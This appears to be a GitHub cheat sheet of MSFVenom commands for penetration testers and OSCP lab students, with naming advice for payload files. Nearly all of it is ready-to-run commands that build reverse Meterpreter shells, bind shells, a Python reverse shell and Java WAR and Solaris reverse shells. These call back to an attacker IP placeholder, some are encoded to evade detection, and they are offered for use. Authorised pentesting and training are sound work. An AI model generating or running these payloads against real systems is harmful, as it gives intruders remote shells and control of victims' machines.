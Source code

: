 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems. One ting to note, is that these payloads can be used more than once, obviously. I would recommend not re-generating a payload each time you compromise a service on a target server. Use a naming convention, such as:

`OS`+`TYPE`+`PORT`.extension

For instance, a Linux ELF binary, Bind Shell, Binds to port 4567 would be, `LinBind4567.elf`. Windows ELF binary, Reverse Meterpreter, returns to port 5555 would be, `WinRevMeter5555.exe`. Keep these payloads readily available as time is of the essence. 

If you are working the Offensive Security PWK labs, make sure that you don't use Meterpreter when possible as [they do not condone it and it is not allowed in the exam.](https://support.offensive-security.com/#!oscp-exam-guide.mdhttps://support.offensive-security.com/#!oscp-exam-guide.md) Hey, if it's confusing - think about it this way, some people still buy vinyl records for nostalgia, I guess not adopting new tools and methods is their thing. 

## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Meterpreter Reverse
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
### Meterpreter Reverse
`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
### Bind Shell Port 4567
`./msfvenom --platform=linux --payload=linux/x86/shell_bind_tcp -e x86/shikata_ga_nai -b '\x00' -f elf LPORT=4567 > LinBind4567.elf`
### Python Stand Alone CMD
This will create a file with the Python command to run from your remote shell.

`msfvenom -p cmd/unix/reverse_python LHOST=(ATTACKER IP ADDRESS) LPORT=(LOCAL PORT) -f raw > RevBind443.py` 

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f war -o shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
